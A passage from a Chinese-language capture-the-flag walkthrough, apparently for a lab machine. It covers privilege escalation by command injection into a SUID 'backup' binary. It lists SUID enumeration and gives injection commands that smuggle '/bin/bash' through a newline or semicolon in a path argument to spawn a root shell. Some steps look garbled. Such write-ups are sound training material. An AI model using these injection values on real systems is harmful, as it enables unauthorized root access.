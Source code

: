 成功获得反弹shell！


------------------------------------
4）提权方法4：命令注入


find / -perm -4000 2>/dev/null
/usr/local/bin/backup
cd /usr/local/bin/
-rwsr-xr--  1 root admin 16484 Sep  3  2017 backup

/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /root/
目录这边可以用/etc/或者/root/，使用这两个目录才会产生base64字符串!
该字符串可以按照与之前的myplace.backup文件完全相同的方式进行解码和解压缩!


文件传输到本地：
base64 -d /usr/local/bin/backup
vi base64.txt
cat base64.txt | base64 -d > backup

-------
/root
/etc
/tmp/.backup_%i
/usr/bin/zip -r -P magicword %s %s > /dev/null    -----需要绕过/dev/null重定向
/usr/bin/base64 -w0 %s
The target path doesn't exist

-------
1. 它检查有效的访问令牌
2. 对于位置/root和/etc，它具有硬编码的base64输出
3. 如果位置不是/etc或/root，它将在/tmp文件夹中创建一个临时文件
4. 然后使用以下命令压缩到特定位置。/usr/bin/zip -r -P magicword %s %s > /dev/null

可以从该命令的输出推断出，如果directory参数是/root或/etc，则返回上面的硬编码base64长字符串，否则，二进制文件将运行/usr/bin/zip -r -P magicword %s %s > /dev/null！！！
5. 然后将存档文件进行 base64 编码并打印到终端上！


需要将字符串作为第三个参数传递给二进制可执行文件，该二进制可执行文件带有多个\n字符，以打印新行，然后当/bin/bash执行时，我们将具有root访问权限，因为二进制文件以root身份运行，添加了最终命令，使bash会话的输出不会重定向到/dev/null即可（使用换行符绕过 /dev/null)


/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "$(echo '\n/bin/bash\')"


/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "$(echo '/any ； /bin/bash any')"



注意：此命令在前面看到的python代码段创建的伪终端内不起作用的，必须首先通过在psuedo-terminal内键入exit或通过以用户tom身份重新连接而完全不运行python代码段来留下该伪终端，才可以执行成功！！

------------------------------------

5）les枚举-CVE-2017-16995
